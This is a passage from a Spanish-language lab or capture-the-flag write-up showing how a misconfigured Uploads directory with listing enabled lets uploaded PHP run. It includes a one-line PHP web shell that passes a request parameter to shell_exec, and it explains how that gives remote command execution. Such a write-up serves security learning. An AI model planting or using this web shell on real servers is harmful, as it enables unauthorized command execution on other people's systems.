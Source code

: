 >Nos encontramos con un directorio Uploads:

![\1](/Attachments/Pasted%20image%2020250516151102.png)

>Al verlo en la web, vemos que esta mal configurado, la opción _Listing_ esta habilitada. En una vulnerabilidad de "Directory Listing" podemos ver el árbol de archivos de una web.

![\1](/Attachments/Pasted%20image%2020250516152437.png)

>Así que podemos listar los archivos subidos desde "Upload.php" y acceder a ellos desde la web:

![\1](/Attachments/Pasted%20image%2020250516152608.png)
_Sabemos que el php se ejecuta, ya que no se muestra el código en si (contenido) del archivo que subimos, si no su ejecución en php (imprimiendo por pantalla "Testing")_

>Vemos que no solamente podemos ver los archivos, si no que el código php se ejecuta.
>Esto se da porque el directorio "Uploads" esta mal configurado, no se comporta como directorio estático, si no que todo archivo subido a allí será ejecutado por el motor de PHP, mas adelante, al vulnerar el sistema, veremos un poco del código vulnerable. Por ahora, vamos a llegar a un RCE subiendo un archivo infectado.

```php
<?php
echo "<pre>" . shell_exec($_REQUEST['hacked']) . "</pre>";
?>
```

![\1](/Attachments/Pasted%20image%2020250516154340.png)
_En php $_REQUEST recoge información de un parámetro "hacked", y la función "shell_exec" ejecuta lo proporcionado directamente en el sistema. Es decir, en teoría, si al parámetro le pasamos un valor “whoami”, $_REQUEST recogerá ese dato, y "shell_exec" lo ejecutara en el sistema, para finalmente (como todo está dentro de un “echo”) mostrarse en pantalla la respuesta del comando
